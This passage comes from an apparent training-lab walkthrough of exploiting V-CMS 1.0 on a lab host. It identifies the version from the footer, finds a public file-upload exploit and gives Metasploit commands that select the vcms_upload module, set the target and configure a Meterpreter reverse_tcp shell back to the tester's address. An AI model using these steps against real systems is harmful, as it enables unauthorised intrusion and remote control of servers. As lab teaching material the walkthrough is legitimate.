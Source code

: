 ![](../media/Blackbox%20lab%20INE_6.png)

URL

[http://demo.ine.local](http://demo.ine.local)

![](../media/Blackbox%20lab%20INE_7.png)

The version 1.0 is mentioned in the footer.

Step 7: Search for publicly available exploit for this version of V-CMS.

![](../media/Blackbox%20lab%20INE_8.png)

We can observe that V-CMS v1.0 is vulnerable to PHP file upload and execution. Also, there is a metasploit module to exploit it.

![](../media/Blackbox%20lab%20INE_9.png)

We can use this module for exploitation.

Step 8: Start the Metasploit framework and search for the vcms module. Then, check all the vcms module available options.

Command

msfconsole -q

search vcms

use exploit/linux/http/vcms_upload

show options

![](../media/Blackbox%20lab%20INE_10.png)

We have found the vcms exploit module.

![](../media/Blackbox%20lab%20INE_11.png)

We can notice, that "TARGETURI" is set to /vcms/ path. We need to change that value to "/" because the v-cms application is present in the base address.

Set "RHOSTS" (or Remote Hosts) to demo.ine.local where the port 80 is exposed

Port 80 is by-default mentioned in the module, also php/meterpreter/reverse_tcp payload is set along with "LHOST" and "LPORT" (Local Machine IP Address and Port) for reverse connection of the meterpreter shell.

The LHOST IP Address which is by default mentioned is not valid. (10.1.0.3). We must replace it to appropriate address, "192.62.135.2" in this setup

Step 9: Set the target information and exploit the vcms application

Command

set RHOSTS demo.ine.local

set TARGETURI /
